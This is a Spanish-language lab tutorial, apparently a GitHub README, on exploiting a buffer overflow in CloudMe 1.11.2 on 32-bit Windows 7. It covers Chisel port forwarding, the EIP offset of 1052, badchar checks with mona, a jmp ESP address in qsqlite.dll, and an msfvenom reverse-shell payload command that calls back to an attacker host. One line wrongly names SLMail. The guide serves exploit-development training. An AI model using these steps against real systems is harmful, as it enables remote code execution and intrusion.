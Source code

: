 # Buffer Overflow Cloudme 1.11.2

Tutorial de buffer overflow en Windows de 32 bits con el programa Cloudme 1.11.2. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Para usar Cludme es necesario crearse una cuenta 

![cloudme](./img/cloudme_reg.png)

Con Immunity Debugger y con la utilidad mona vamos a determinar el offset y direcciones de memoria para ejecutar nuestro shell code. 

Cloudme usa el puerto 8888 pero no está a la vista desde la máquina atacante para poder conectarnos haremos uso de la herramienta Chisel, que nos permite compartir puertos internos de la máquina victima a la máquina atacante. Hay que descargar Chisel según la versión de OS.

Una vez descargado Chisel, desde la máquina atacante ejecutar ``` ./chisel server -p puerto --reverse ```

![chisel_linux](./img/chisel_linux.png)

Y desde la máquina víctima 
```chisel.exe client IPMaquinaAtacante:puerto R:8888:127.0.0.1:8888 ```

![chisel_windows](./img/chisel_windows.png)

Para comprobar que efectivamente se nos ha compartido el puerto con el comandos ```lsof -i:8888 ```

![check_port](./img/check_port.png)

Con netcat podemos conectarnos al servicio

![nc_send_data](./img/nc_send_data.png)

Al enviar datos se puede acontecer el Buffer Overflow para obtener el offset con pattern create crearemos un patrón que será enviado y con Immunity Debugger obtendremos la dirección de la memoría del EIP

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern_buffer](./img/pattern_buffer.png)

![pattern_buffer](./img/pattern_buffer_2.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con Cloudme, se pausará el programa darle al botón de play para que se reanude el flujo del programa. Una vez sincronicados ejecutar el script.

![pattern_eip](./img/pattern_eip.png)

Se determina el offset con la dirección del EIP que se obtuvo en Immunity Debugger

Con ``` pattern_offset -q dirección ``` se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 1052.

Comprobamos que sea el offset

![buffer_check](./img/buffer_check.png)

![eip_check](./img/eip_check.png)

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![mona_folder](./img/mona_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos bytearray.txt, que contiene los carácteres imprimibles.

![mona_bytearray](./img/mona_array.png)

Transferir el archivo bytearray.txt a la máquina atacante y añadir los carácteres en el script.

![badchards_script](./img/badchars.png)


Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\Cloudme\bytearray.bin -a direccion ``` para obtener un badchar)

![badchars_esp](./img/badchars_esp.png)

![badchars_compare](./img/badchars_compare.png)
    
En este caso no hay badchars por lo que se puede generar directamente el shell code

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP, se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge qsqlite.dll

![mona_modules](./img/mona_modules.png)


Se busca la dirección de jmp ESP en el módulo con ```
!mona find -s "\xff\xe4" -m qsqlite.dll ``` y se comprueba la dirreción a jmp ESP

![find_jmp_addr](./img/find_jmp_esp.png)

![find_jmp](./img/esp_addr.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ``` 6D619117 ->  1791616D ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell


![reverse_shell](./img/bof.png)



